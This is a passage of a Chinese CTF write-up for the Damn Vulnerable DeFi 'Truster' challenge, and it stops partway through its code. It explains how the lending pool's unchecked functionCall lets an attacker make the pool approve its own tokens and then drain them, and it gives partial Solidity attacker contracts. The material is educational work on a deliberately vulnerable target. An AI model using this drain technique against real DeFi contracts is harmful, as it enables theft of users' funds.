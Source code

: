 [Truster](https://www.damnvulnerabledefi.xyz/challenges/truster/)


### 合约

- TrusterLenderPool：提供闪电贷功能，池子中有100w DVT tokens

### 脚本

- 部署DamnValuableToken、TrusterLenderPool合约
- 向pool中转入100w DVT tokens
- 执行攻击脚本
- 期望100w token全部归属player账户，pool余额清空

### 题解

在pool中的flashLoan方法中，首先需要计算当前的token余额balanceBefore，然后转移token到borrower，再执行给定target.functionCall，最后校验当前余额和balanceBefore

区别于之前的闪电贷，这里pool没有继承IERC3156FlashLender，而是通过调用传入的target和calldata完成回调功能

因此主要的攻击方向就是target.functionCall，包括的内容是：

- 将指定amount的token approve给攻击合约
- 执行repay流程

执行完functionCall后再利用transfer方法将token从pool中转移出来，整体流程图如下所示：
![image](https://pic.imgdb.cn/item/654e6930c458853aef7dcc43.jpg)




根据题目要求，尽可能在一笔交易完成，那么需要写合约来完成flashloan+approve+transfer的操作

- 包括两个合约：TmpAttacker和Attacker，执行flashloan的是Attacker，但是因为一笔交易内完成（只有部署合约），部署合约时无法拿到当前合约地址，需要再创建一个合约：TmpAttacker

- 部署Attacker合约时会调用pool.flashLoan，此时amount为0，只是为了进行approve，将TOKENS_IN_POOL数目的token approve给TmpAttacker

- 再调用TmpAttacker.withdraw将token转移到player账户，完成攻击

整体代码如下：

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../../src/truster/TrusterLenderPool.sol";
import "../../src/DamnValuableToken.sol";

contract TmpAttacker {
    uint256 internal constant TOKENS_IN_POOL = 1_000_000e18;
    address player;
    address pool;
    DamnValuableToken token;
    constructor(address _player,address _token, address _pool){
        player = _player;
        pool = _pool;
        token = DamnValuableToken(_token);
    }

    function withdraw() external{
        token.transferFrom(pool, player, TOKENS_IN_POOL);
    }
}

contract Attacker {
    uint256 internal constant TOKENS_IN_POOL = 1_000_000e18;
```